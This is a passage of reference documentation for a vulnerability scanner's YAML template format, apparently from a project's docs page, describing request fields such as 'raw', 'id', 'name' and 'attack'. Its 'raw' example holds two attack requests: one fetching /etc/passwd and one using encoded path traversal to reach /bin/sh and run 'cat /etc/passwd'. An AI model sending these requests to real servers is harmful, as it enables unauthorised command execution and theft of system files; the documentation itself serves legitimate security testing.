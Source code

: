 
```yaml
# Some example raw requests
raw:
    - |-
      GET /etc/passwd HTTP/1.1
      Host:
      Content-Length: 4
    - |-
      POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
      Content-Length: 1
      Connection: close

      echo
      echo
      cat /etc/passwd 2>&1
```


</div>

<hr />

<div class="dd">

<code>id</code>  <i>string</i>

</div>
<div class="dt">

ID is the optional id of the request

</div>

<hr />

<div class="dd">

<code>name</code>  <i>string</i>

</div>
<div class="dt">

Name is the optional name of the request.

If a name is specified, all the named request in a template can be matched upon
in a combined manner allowing multi-request based matchers.

</div>

<hr />

<div class="dd">

<code>attack</code>  <i><a href="#generatorsattacktypeholder">generators.AttackTypeHolder</a></i>

</div>
<div class="dt">
